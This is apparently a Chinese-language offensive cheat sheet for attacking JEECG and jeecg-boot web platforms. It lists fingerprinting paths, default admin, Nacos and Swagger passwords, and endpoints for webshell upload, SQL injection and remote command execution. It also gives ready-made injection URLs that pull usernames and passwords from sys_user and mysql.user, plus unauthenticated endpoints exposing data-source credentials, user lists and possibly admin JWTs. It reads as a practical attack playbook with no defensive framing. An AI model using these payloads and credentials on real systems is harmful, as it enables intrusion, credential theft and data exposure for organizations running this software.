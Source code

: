 JEECG(J2EE Code Generation)是开源的代码生成平台，目前官方已停止维护。
**注：Jeecg 与 Jeecg-boot 非相同应用。** Jeccg官方地址为：https://gitee.com/jeecg/jeecg
^


jeecg-boot是一个基于SpringBoot的低代码开发平台CMS，号称最具影响力。



特征：
/system/
/sys/
/jeecg-boot/
/jeecg-boot/sys/
/jeecg-boot/sys/common/upload

演示站细看：<http://boot3.jeecg.com/login>
开发文档：<https://help.jeecg.com/java/java/qa.html>

JEECG的默认登录账号密码如下：
1. [账号：admin，密码：123456](http://idoc.jeecg.com/1275933)[](http://idoc.jeecg.com/1275933)[](https://www.cnblogs.com/CHENJIAO120/p/7079300.html)
2. [账号1：jeecg，密码1：jeecg#123456；账号2：qinfeng，密码2：jeecg#123456]
3. [在jeecg-cloud-nacos中，nacos鉴权的默认用户名密码为nacosnacos](https://segmentfault.com/a/1190000045065819)[](https://segmentfault.com/a/1190000045065819)
4. [在在线接口文档swagger中，登录名为jeecg，密码为jeecg1314](http://doc.jeecg.com/2043926)[](http://doc.jeecg.com/2043926)

^
## **存在多个历史漏洞**
工具：<https://github.com/R4gd0ll/I-Wanna-Get-All>
<https://my.oschina.net/jeecg/blog/10150942>
<https://xz.aliyun.com/t/15138?time__1311=GqjxuQD%3DeYqeqGNDQi5BKKdgzwxAKGC%2BCeD>

接口文档泄露：
/jeecg-boot/v2/api-docs

账号创建漏洞：
/jeecg-boot/server/sys/user/addy

任意文件上传，可以传webshell：
/jeecg-boot/commonController.do?parserXml

SQL注入：
1）/sys/duplicate/check
2）/sys/ng-alain/getDictItemsByTable/
3）/sys/diet/query/TableData
4）/jmreport/qurestSql

RCE：
/jeecg-boot/jmreport/queryFieldBySql
/jeecg-boot/jmreport/loadTableData
/jeecg-boot/jmreport/testConnection
/jeecg-boot/api/../jeecgFormDemoController

如：/jeecg-boot/jmreport/loadTableData命令执行：
<https://blog.csdn.net/qq_36334672/article/details/136025263>
设置token(可选)和请求体，响应包里有命令执行结果。
如：testConnection
<https://mp.weixin.qq.com/s/DW_tUQt9qjNb6woZy42xeA>

^
后台jdbc


^
工具：<https://mp.weixin.qq.com/s/loTo06eNhyUIxUIPGJQuzg>
用工具加上前缀/jeecg-boot/、/jeecgboot/、/xxx-boot/、/api/

^
敏感接口
```
/user/register
注册

数据源：
/monitor/datasource
/isystem/dataSource
/xxx/dataSource
/jeecgboot/sys/dataSource/list

看指定数据库的账号密码:
/jeecgboot/sys/dataSource/queryById?id=1209779538310004737

OSS存储数据列表：
/jeecgboot/sys/oss/file/list


附件数据列表：
/jeecgboot/system/sysFile/list
/api/system/sysFile/list


第三方配置：
/jeecgboot/sys/thirdApp/getThirdConfigByTenantId




字典
/jeecgboot/sys/dict/list?column=createTime&order=desc


用户列表
/jeecgboot/sys/user/listAll
/jeecgboot/sys/user/list



流程监听
/jeecgboot/act/process/extActListener/list


网关路由
/jeecgboot/sys/gatewayRoute/list



数据日志
/jeecgboot/sys/dataLog/list
登录日志
/jeecgboot/sys/log/list?logType=1
操作日志
/jeecgboot/sys/log/list?logType=2
异常日志
/jeecgboot/sys/log/list?logType=4


请求追踪，最近的请求
/jeecgboot/actuator/httptrace-new/all
/jeecgboot/actuator/httptrace-new/success

在线用户
/jeecgboot/sys/online/list




##### 版本号：
3.7.0
##### 问题描述：
当主表的数据关联不上子表的任何数据时，查看详情会弹出tips 子表获取数据失败:xxx，直接暴漏了子表的名称

/jmreport/
有没有开启积木报表功能，开启了更多漏洞
```

^
## **漏洞**
getDictItemsByTable注入分析：<https://xz.aliyun.com/t/13186?time__1311=GqmhkD8iGNDKKYK0%3DeG%3Dt0QqitoQymmD>
```
sql注入账号密码查询。若报错可报项目路径
/sys/ng-alain/getDictItemsByTable/sys_user/username/password
/jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js
/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/username,password%20'/x.js

sys_third_app_config
sys_data_source
oss_file
mysql.user
要有查看权限对于语句 select *, ' as "label",x.js as "value" from ' from mysql.user

```
未授权泄露最近的请求路径
```
/sys/user/querySysUser?username=admin 查询某个用手机号
/jeecg-boot/actuator/httptrace/  可能获取到管理员jwt

/sys/getEncryptedString  获取AES加密IV
```

普通账户权限提升：
<https://github.com/jeecgboot/JeecgBoot/issues/5270>